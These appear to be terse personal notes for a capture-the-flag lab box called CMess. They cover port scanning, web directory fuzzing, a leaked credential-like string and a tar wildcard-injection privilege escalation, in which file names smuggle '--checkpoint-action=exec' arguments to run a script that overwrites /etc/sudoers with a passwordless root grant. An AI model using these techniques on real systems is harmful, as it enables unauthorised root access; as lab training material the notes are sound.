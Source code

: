 ###### cmess

first rust scan

export IP=10.10.35.116

rustscan -u 5000 -r 1-65535 -a $IP gives us 80 and 22

ffuf -u http://cmess.thm/FUZZ -w /home/srini/Tools/SecLists/Discovery/Web-Content/common.txt

http://cmess.thm/tmp/?url=tmp - formbidden, same for src,lib

robots.txt
User-agent: *
Disallow: /src/
Disallow: /themes/
Disallow: /lib/

UQfsdCB7aAP6

andre@cmess:~/backup$ echo 'echo "andre ALL=(ALL:ALL) NOPASSWD: ALL" > /etc/sudoers' > test.sh
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh test.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
andre@cmess:~/backup$ ls -la
total 24
drwxr-x--- 2 andre andre 4096 May  8 08:31 .
drwxr-x--- 4 andre andre 4096 Feb  9  2020 ..
-rw-rw-r-- 1 andre andre    1 May  8 08:31 --checkpoint=1
-rw-rw-r-- 1 andre andre    1 May  8 08:31 --checkpoint-action=exec=sh test.sh
-rwxr-x--- 1 andre andre   51 Feb  9  2020 note
-rw-rw-r-- 1 andre andre   56 May  8 08:31 test.sh
andre@cmess:~/backup$ chmod +x test.sh